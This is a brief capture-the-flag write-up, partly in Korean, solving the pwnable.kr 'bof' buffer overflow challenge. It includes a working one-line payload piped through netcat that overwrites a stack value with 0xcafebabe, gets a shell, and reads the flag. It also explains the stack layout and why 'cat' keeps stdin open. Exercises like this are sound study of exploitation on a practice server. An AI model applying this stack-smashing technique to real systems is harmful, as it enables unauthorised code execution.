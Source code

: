 Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

* 기초적인 buffer overflow 문제
* 그냥 생각해 보면 32 byte - old ebp - return address - argument 순으로 되어 있을것 같지만 해보면 stack smashing detector 같은것도 있고 해서 좀 더 많이 overflow 해야 한다

~~~
vmware@ubuntu:~$ (python -c "print '\xbe\xba\xfe\xca'*11" ; cat) | nc pwnable.kr 9000
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
~~~

* cat을 넣어야 하는 이유는, linux의 pipe는 주어진 input이 끝나면 자동으로 stdin으로 전환해 주는게 아니라 그냥 더 이상 들어갈게 없다고 생각하고 input을 받는 프로세스를 종료시켜 버린다. 그래서 뒤에 cat을 넣어줘서 python print 이후에도 cat을 통한 stdin이 있을것임을 보여주는 것이다. 

~~~
vmware@ubuntu:~$ (python -c "print '\xbe\xba\xfe\xca'*14" ; cat) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
~~~